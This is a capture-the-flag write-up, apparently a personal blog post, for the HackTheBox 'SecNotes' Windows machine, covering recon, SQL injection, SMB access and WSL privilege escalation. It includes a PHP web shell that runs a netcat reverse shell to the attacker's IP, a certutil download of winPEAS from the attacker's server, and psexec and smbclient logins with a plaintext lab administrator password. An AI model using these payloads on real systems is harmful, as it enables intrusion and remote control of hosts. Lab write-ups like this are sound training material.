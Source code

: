 ```yaml
---
title: "SecNotes - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - SecNotes
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## SecNotes
![](https://kar0nx.github.io/assets/images/writeup/50c8eaf2cd0fe953a71141b06bd88817.webp)

## Reconnaissance

IP: 10.10.10.97
### NMAP

```
nmap -T4 -A -p- 10.10.10.97
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 10:41 EST
Nmap scan report for 10.10.10.97
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h39m31s, deviation: 4h37m09s, median: -29s                                                         
| smb2-security-mode:                                                                                                   
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-07T15:43:25
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-03-07T07:43:24-08:00

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.27 ms 10.10.14.1
2   31.64 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.43 seconds
```

Nmap scan shows 3 open ports 80 - http, 445 - smb, 8808 - http
## Website

### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307164355.png)

Login page, I tried to create account and find something on usefull on site:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307164446.png)

and we have probably admin email

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307164522.png)

site is vulnerable to xss but I also find sql injection in registration, what led me to credentials, doesn't work on site, so let's try it in smb  

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307172304.png)

## SMB

```
smbclient \\\\10.10.10.97\\new-site -U tyler
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307173124.png)

## Port 8808

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307173103.png)

Default IIS Windows page

## Gaining access

First I copy nc.exe from system's resources directory and then upload it to target system

```
cp /usr/share/windows-resources/binaries/nc.exe .
```

in smbclient:

```
put nc.exe
```

Next I create PHP reverse shell payload

```
<?php
system('nc.exe -e cmd.exe 10.10.14.15 1337')
?>
```

set up the listener

```
nc -nvlp 1337
```

Then we need to trigger payload by navigating to:

```
http://10.10.10.97:8808/rev.php
```

We have lol-level shell,  let's grab first flag 

```
type c:\users\tyler\desktop\user.txt
```

## Privilege Escalation

Open python http server in winpeas directory:

```
python3 http.server 80
```

And download it on target machine

```
certutil -urlcache -f http://10.10.14.15/winPEASany.exe win.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307174728.png)

I attempt to search for the bash.exe executable on the target system to check if Windows Subsystem for Linux (WSL) is available for exploitation:

```
c:\>where /R c:\windows bash.exe
	where /R c:\windows bash.exe
	c:\Windows\WinSxS\amd64_microsoft-windows-lxss-
bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Use this guide
https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307175411.png)

And we have root privilege let's spawn TTY shell with simple python 

```
python -c "import pty;pty.spawn('/bin/bash')"
```

To upgrade our shell let's enumerate linux, history shows everything here:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307180010.png)

Copy smbclient login and change ip:

```
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

Navigate to:

```
cd \users\administrator\desktop\
get root.txt
```

And grab root flag
We can also connect via psexec.py to get full shell

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250307180837.png)